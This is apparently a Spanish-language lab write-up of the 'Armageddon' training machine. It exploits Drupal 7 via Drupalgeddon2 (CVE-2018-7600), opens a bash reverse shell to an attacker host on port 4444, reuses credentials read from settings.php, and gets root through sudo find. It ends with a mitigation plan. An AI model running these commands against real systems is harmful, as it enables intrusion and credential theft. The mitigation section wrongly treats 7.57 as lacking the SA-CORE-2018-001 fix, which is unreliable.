








<h1 align="center">[Writeup] Armageddon - Reporte de Vulnerabilidad</h1>

**Dificultad:** Medio (★★★★☆☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales  / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 21-09-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Escenario de entrenamiento en ciberseguridad ofensiva enfocado en Web Exploit con dificultad Medium. Diseñado para evaluar metodología de enumeración, explotación de vectores de ataque y escalada de privilegios."

---

## 1. 🔍 Fase de Reconocimiento

El objetivo inicial fue identificar la superficie de ataque del objetivo (**172.17.0.2**).
### Escaneo de Puertos y Servicios

Se utilizó **Nmap** para descubrir puertos abiertos y las versiones de software corriendo en ellos.

```
nmap -sV -sC -p- --min-rate 1000 172.17.0.2 -oN scan_armageddon.txt
```

**Resultado:**

- **80/tcp:** Apache httpd 2.4.38 
- Un importante reconocimiento es el uso de la tecnologia "**Drupal**" para la creación de la web.


## 2. 📂 Enumeración Web

Al detectar un servicio web, se procedió a identificar directorios y archivos ocultos que pudieran servir como vectores de entrada.
### Fuzzing de Directorios

Se utilizó **Gobuster** con un diccionario común y extensiones específicas.

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,txt,html -b 403,404
```

**Hallazgos clave:**


*Drupal 7 confirmado por la estructura típica (`sites/`, `misc/`, `xmlrpc.php`, etc.).*

Por ende, para revisar la versión exacta de Drupal, utilizamos:
```
curl -s http://172.17.0.2/CHANGELOG.txt | head -20
```
Lo que nos devuelve:
```
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
-----------------------
- Fixed incompatibility with PHP versions 7.0.19 and 7.1.5 due to duplicate
  DATE_RFC7231 definition.
- Made Drupal core pass all automated tests on PHP 7.1.
- Allowed services such as Let's Encrypt to work with Drupal on Apache, by
  making Drupal's .htaccess file allow access to the .well-known directory
  defined by RFC 5785.
- Made new Drupal sites work correctly on Apache 2.4 when the mod_access_compat
  Apache module is disabled.
- Fixed Drupal's URL-generating functions to always encode '[' and ']' so that

```

## 3. 🛠️ Fase de Explotación (RCE)

Para versiones 7 de drupal existen vulnerabilidades criticas de RCE, particularmente una muy mediatica de 2018, que coincidentemente es parecida al nombre del laboratorio ("**Drupalgeddon2**")
Existen herramientas comunes en Metasploit y exploits publicos en Exploit-DB/GitHub para esto.

Para este caso se ha decidido por **SA-CORE-2018-001 / CVE-2018-7600 (Drupalgeddon2)** (sin necesidad de tener usuario/contraseña). A diferencia de **CVE-2018-7602** (SA-CORE-2018-004), que requiere usuario/contraseña.

*Breve descricpción:*
```
**SA-CORE-2018-001** es un ==aviso de seguridad crítico publicado por el equipo de Drupal el 21 de febrero de 2018 que corrige múltiples vulnerabilidades en el núcleo de las versiones 7 y 8 de Drupal.

Detalles Clave

- **Fecha de publicación:** 21 de febrero de 2018.

- **Nivel de riesgo:** Crítico.

- **Versiones afectadas:** Drupal >= 7.0 y < 7.57, y Drupal >= 8.0.0 y < 8.4.5.

- **Problemas solucionados:** Incluye fallos de control de acceso, escalada de privilegios y vulnerabilidades de tipo _cross-site scripting_ (XSS) debido a un manejo incorrecto de entradas en funciones de escape como `checkPlain()` en Drupal 7, además de problemas de modificación de comentarios en Drupal 8
```

Buscando un poco más en Internet, encontramos un script ideal para este tipo de vulnerabilidad en:

[[https://github.com/pimps/CVE-2018-7600]]

Más especificamente el código **drupa7-CVE-2018-7600.py**

**Detalles del script**:

El script funciona "envenenando" el formulario de recuperación de contraseña (`user/password`) inyectando sintaxis de Drupal Form API (`#post_render`, `#type`, `#markup`) en el campo `name`, en lugar de un string plano. Al ser cacheado y posteriormente re-renderizado a través del endpoint `/file/ajax`, Drupal interpreta el array malicioso y ejecuta el comando especificado mediante la función PHP indicada (`passthru` por defecto).

Haciendo la prueba correspondiente:
```
python3 drupa7-CVE-2018-7600.py http://172.17.0.2/ -c "id"
```


## 🚀 4. Acceso 

Respuesta 100% esperada, solo queda ejecutar una Shell Reverse con el script:

```
 python3 drupa7-CVE-2018-7600.py http://172.17.0.2/ -c "bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'"
 
 -Y en nuestra máquina atacante:
 
 nc -lvnp 4444
 
```

Resultado:


Una vez conseguido el acceso estabilizamos la shell:

```
Ejecutamos:
/usr/bin/script -qc /bin/bash /dev/null

Presionamos CTRL+Z
ejecutamos:
stty raw -echo; fg
y doble ENTER para volver a la shell

Exportamos la shell y sus propiedades con:
export TERM=xterm-256color; export SHELL=bash; stty rows 44 cols 180

```

## 5. ⚡ Escalada de Privilegios

Al no obtener resultados con las técnicas estándar de enumeración de privilegios (`getcap`, búsqueda de binarios SUID), se redirigió el análisis hacia la enumeración de usuarios locales vía `/etc/passwd`, buscando cuentas con shell asignada como posible vector de pivoteo.

```
www-data@armageddon:/var/www/html$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
dbadmin:x:1000:1000::/home/dbadmin:/bin/bash
```

La cuenta `dbadmin`, con shell interactiva asignada, se presentó como un candidato evidente para movimiento lateral, sugiriendo por su propio nombre una posible relación con la base de datos de la aplicación. Siguiendo esta hipótesis, se procedió a inspeccionar el directorio de configuración por defecto de Drupal (**/var/www/html/sites/default/settings.php**), en busca de credenciales de conexión a la base de datos que pudieran haber sido reutilizadas como contraseña del sistema.

Resultado:


Ya teniendo en nuestras manos el usuario dbadmin, realizamos una segunda enumeración, donde **sudo -l** da una pista sólida:

```
Matching Defaults entries for dbadmin on armageddon:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dbadmin may run the following commands on armageddon:
    (ALL) NOPASSWD: /usr/bin/find

```

Se revisa GTFOBins.org para ver como utilizar este fichero find:



```
dbadmin@armageddon:/var/www/html/sites/default$ sudo find . -exec /bin/bash -p \; -quit
root@armageddon:/var/www/html/sites/default# whoami; id
root
uid=0(root) gid=0(root) groups=0(root)
```

## 5. 🏆 Post-Explotación



Flag Obtenido como root:
```
ARMAGEDDON{4rm4g3dd0n_drUp4l_rce_m4st3r}
```

Laboratorio Resuelto:


---
## 6. 🛡 Plan de Mitigación

**Vulnerabilidad 1: RCE vía Drupalgeddon2 (CVE-2018-7600)**

- **Causa raíz:** Uso de una versión de Drupal (7.57) desactualizada respecto al parche de seguridad SA-CORE-2018-001, que corrige el manejo inseguro de arrays en el Form API.
- **Remediación:** Actualizar Drupal a la versión 7.58 o superior de inmediato. Dado que se trata de una vulnerabilidad crítica pre-auth con explotación pública ampliamente automatizada, la actualización debe tratarse como prioridad máxima, no como mantenimiento rutinario.
- **Medida complementaria:** Implementar un WAF (Web Application Firewall) con reglas específicas contra Drupalgeddon2, como capa adicional mientras se valida el despliegue del parche en producción.

**Vulnerabilidad 2: Reutilización de credenciales entre servicios**

- **Causa raíz:** La contraseña de la cuenta de base de datos (`drupaluser`) fue reutilizada como contraseña del sistema operativo para el usuario `dbadmin`, permitiendo un movimiento lateral trivial una vez comprometido `settings.php`.
- **Remediación:** Aplicar una política de contraseñas únicas por servicio y por capa (aplicación, base de datos, sistema operativo). Ninguna credencial de servicio debería coincidir con una credencial de acceso a shell.
- **Medida complementaria:** Restringir los permisos de lectura de `sites/default/settings.php` exclusivamente al usuario que ejecuta el servidor web, evitando que quede expuesto a otros procesos o usuarios del sistema.

**Vulnerabilidad 3: Configuración insegura de sudoers (GTFOBins - find)**

- **Causa raíz:** El usuario `dbadmin` contaba con permiso `NOPASSWD` para ejecutar `/usr/bin/find` como root sin restricciones, un binario ampliamente documentado en GTFOBins como vector de escalada trivial.
- **Remediación:** Eliminar el permiso sudo sobre `find`, o en caso de ser estrictamente necesario, restringir su uso mediante argumentos fijos (evitando flags como `-exec`) o reemplazarlo por un script específico con la funcionalidad mínima requerida.
- **Medida complementaria:** Auditar periódicamente la configuración de `/etc/sudoers` contra la lista de binarios peligrosos documentados en GTFOBins, como parte de una revisión de hardening recurrente.
